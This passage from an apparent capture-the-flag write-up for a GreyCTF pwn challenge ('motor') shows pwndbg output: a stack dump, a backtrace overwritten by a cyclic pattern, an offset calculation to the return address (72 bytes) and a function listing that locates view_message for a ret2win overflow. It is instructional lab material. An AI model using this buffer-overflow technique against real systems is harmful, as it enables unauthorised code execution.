 ```
04:0020│     0x7fffffffdc58 —▸ 0x401783 (main) ◂— endbr64 
05:0028│     0x7fffffffdc60 ◂— 0x100000000
06:0030│     0x7fffffffdc68 —▸ 0x7fffffffdd58 —▸ 0x7fffffffe0e3 ◂— '/home/xor8ex/greyctf/pwn/motor/distribution/chall'
07:0038│     0x7fffffffdc70 —▸ 0x7fffffffdd58 —▸ 0x7fffffffe0e3 ◂— '/home/xor8ex/greyctf/pwn/motor/distribution/chall'
────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────────────────────────────────────────────────────────────────────────────────
 ► 0         0x401564 login+197
   1 0x616161616161616a
   2 0x616161616161616b
   3 0x616161616161616c
   4       0x6161616d
   5         0x401783 main
   6      0x100000000
   7   0x7fffffffdd58
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> cyclic -l "iaaaaaaa"
Finding cyclic pattern of 8 bytes: b'iaaaaaaa' (hex: 0x6961616161616161)
Found at offset 64
pwndbg> 
```
Using the exploitation method that we used in babygoods challenge, we attempt to provide a 100 byte cyclic pattern and find the offset of rbp which gave us 64. We then +8 to it to give us the offset to rip register since rbp and rip would be right next to each other in the stack and this gives us 72.

We then find the address of view_message().

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401140  putchar@plt
0x0000000000401150  puts@plt
0x0000000000401160  fread@plt
0x0000000000401170  fclose@plt
0x0000000000401180  setbuf@plt
0x0000000000401190  printf@plt
0x00000000004011a0  memset@plt
0x00000000004011b0  close@plt
0x00000000004011c0  read@plt
0x00000000004011d0  calloc@plt
0x00000000004011e0  strcmp@plt
0x00000000004011f0  malloc@plt
0x0000000000401200  open@plt
0x0000000000401210  fopen@plt
0x0000000000401220  __isoc99_scanf@plt
0x0000000000401230  exit@plt
0x0000000000401240  usleep@plt
0x0000000000401250  _start
0x0000000000401280  _dl_relocate_static_pie
0x0000000000401290  deregister_tm_clones
0x00000000004012c0  register_tm_clones
0x0000000000401300  __do_global_dtors_aux
0x0000000000401330  frame_dummy
0x0000000000401336  slow_type
0x000000000040138e  view_message
0x000000000040141d  retrieve_pin
```